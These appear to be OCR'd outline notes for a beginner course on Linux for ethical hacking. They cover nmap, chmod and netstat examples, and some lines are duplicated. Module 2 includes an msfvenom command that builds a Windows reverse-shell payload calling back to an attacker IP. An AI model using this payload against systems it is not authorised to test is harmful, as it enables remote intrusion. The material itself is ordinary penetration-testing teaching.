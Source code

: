 **Introduction to Linux for Ethical Hackers**

**Overview**

* Linux is a free and open-source operating system commonly used by ethical hackers and penetration testers.
* This course will provide a comprehensive introduction to Linux for beginners, focusing on terminal and command line usage.

**Instructor Introduction**

* Heath Adams, also known as the Cyber Mentor
* Husband, hacker, military veteran, gamer, sports fan, animal dad
* Former accountant turned security geek with three years of experience in cybersecurity

**Course Objectives**

* Develop a strong foundation in Linux fundamentals
* Master the terminal and command line
* Gain practical skills for ethical hacking and penetration testing**Introduction to Ethical Hacking and Linux for Beginners**

**Module 1: Understanding Ethical Hacking**

* Definition of ethical hacking
* Role of ethical hackers in improving cybersecurity
* Differences between ethical hacking and malicious hacking
* Ethical guidelines and legal implications* Ethical guidelines and legal implications

**Module 2: Penetration Testing Basics**

* Overview of penetration testing
* Common penetration testing techniques (e.g., reconnaissance, vulnerability scanning, exploitation)
* Ethical Hacking Methodology NMAP (Network Mapper)
    * **Syntax:** nmap [options] [target]
    * **Example:** nmap -sV 192.168.1.100
* Establishing a foothold in a system
    * **Syntax:** msfvenom -p windows/shell_reverse_tcp LHOST=[your_IP] LPORT=[port] -f exe > payload.exe
    * **Example:** msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > payload.exe

**Module 3: Linux Fundamentals for Ethical Hacking**

* Introduction to Linux and its role in ethical hacking
* Basic Linux commands for navigation, file management, and system administration
* Understanding Linux permissions and user management
    * **Syntax:** chmod [options] [permissions] [file/directory]
    * **Example:** chmod 755 file.txt
* Using Linux for network analysis and reconnaissance* Using Linux for network analysis and reconnaissance
    * **Syntax:** netstat -ntlp
    * **Example:** netstat -ntlp | grep 80

**Module 4: Hands-On Ethical Hacking Techniques**
